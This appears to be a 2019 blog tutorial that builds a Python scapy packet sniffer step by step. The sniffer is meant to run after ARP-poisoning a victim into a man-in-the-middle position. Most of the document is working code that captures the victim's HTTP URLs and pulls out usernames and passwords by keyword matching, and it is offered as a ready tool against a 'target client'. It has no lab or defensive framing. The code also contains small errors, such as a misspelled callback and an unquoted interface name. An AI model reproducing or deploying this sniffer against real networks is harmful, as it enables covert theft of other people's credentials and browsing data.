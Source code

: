 ```yaml
---
layout: post
comments: true
title:  "The Process of Building a Packet Sniffer Tool"
date:   2019-03-22 00:03:26
categories: Python, Packet Sniffer, Kali, scapy, Application Layer, HTTP, MITM
---
```


In this documentation, I will go through the process on how to write a Packet Sniffer tool in Python which can sniff (capture) data flowing through an interface, filter this data, and display information on terminal like: visited websites, usernames, passwords, images and files downloaded.

Here, in order to capture data, you would need to already be the MITM (Man In The Middle) by using ARP table poisoning, or via any other method. For this tool we will be using the module scapy. To install scapy do the following.
```python
pip install scapy
pip install scapy_http
```
Note: scappy http module is used to filter for the HTTP layer.
Let's jump right into how to build a Packet Sniffer tool. For this tool we will build a packet sniffer that analyzes what website the client requests, and if they type in any username or password on that specific website we will capture that data and view it on our terminal.

1. In order to sniff data that is being sent to or from one of our computer interfaces, we will use a function called sniff that comes in the module scapy, but before we can use it let's import all the necessary libraries.
    ```python
    #!/usr/bin/env python
    import scapy.all as scapy
    from scapy.layers import http
    ```

2. Next, let's create a function called sniff() where we will pass in the interface. This interface will be the interface that we will be sniffing (capturing) data from. Here, "iface" means to specify the interface that is to be sniffed. "Store" is to tell scapy not to store packets in memory, hence it doesn't cause too much pressure on the computer. The "prn" argument allows us to specify a call back function, where this function will be called every time the sniff() function captures a packet.
    ```python
    def sniff(interface):
        scapy.sniff(iface=interface, store=False, prn=process_sniffed_pakcet)
    ```

3. After sniffing the data, next, we will write a function to capture the URL requested by the target client. Here, we are extracting data from a specific layer. For this we will use the BPF (Berkeley Packet Sniffer) syntax. Since web browsers use the HTTP layer, we will look into the packet to see if it has a layer of HTTP request, and if it does, then we will return that packet. So, in order to extract the URL visited by the user, we will use the HTTP request layer which contains the information of the visited/requested web page. Here, "Host" contains the first part of the URL and "Path" contains the rest of the URL. (Note: if you do print(packet.show) you will be shown all the layers in the packet and the fields that are set in this packet. But beware it can get very messy and untidy. The reason of printing packet.show is so that we can find out which layer contains the information we are looking for.)
    ```python
    def get_url(packet):
        return packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path
    ```

4. Next, we will write a function to capture login information, such as username and password that is entered into the website by the target client. After some search/analyze through packet.show output I noticed that there is a layer called "Raw" which contains all the information of the packets, and I noticed that we would only need the load field. Hence, the following code. Here, to find whether a specific element substring is contained in load, we will create a list of keywords.
    ```python
    def get_login_info(packet):
        if packet.haslayer(scapy.Raw):
            load = packet[scapy.Raw].load
            keywords = ["username", "user", "password", "pass"]
            for keyword in keywords:
                if keyword in load:
                    return load
    ```

5. Next, we will write the callback function which we specified in step 2. This function will be called every time the sniff() function captures a packet. Here, we will call the get_url function from step 3 to get URL requested by the target client and we will print the information out on terminal. Also, we will call the get_login_info function from step 4 to get the login information entered by the target client and we will print it out to terminal. (Note: here, I have used "\n\n" in the print statement, so that when it shows up on terminal, the print statement will be easier to find.)
    ```python
    def process_sniffed_pakcet(packet):
        if packet.haslayer(http.HTTPRequest):
            url = get_url(packet)
            print("[+] HTTP Request >> " + url)

            login_info = get_login_info(packet)
            if login_info:
                print("\n\n[+] Possible Username/Password >> " + login_info + "\n\n")
    ```

6. Finally, we will call the sniff function and pass in the specific interface that is to be sniffed. The specified interface needs to have packets flowing through it. For example, this is achieved after a target Client and Access Point have been ARP spoofed, causing packets to redirect flow of packets through the interface that is used to spoof.
    ```python
    sniff(eth0)
    ```

7. Now, we have a fully working Packet Sniffer tool which can help us see URLs, usernames and passwords sent by the target. If you get stuck in the process or have any questions, leave a comment down below and I will be happy to answer them.

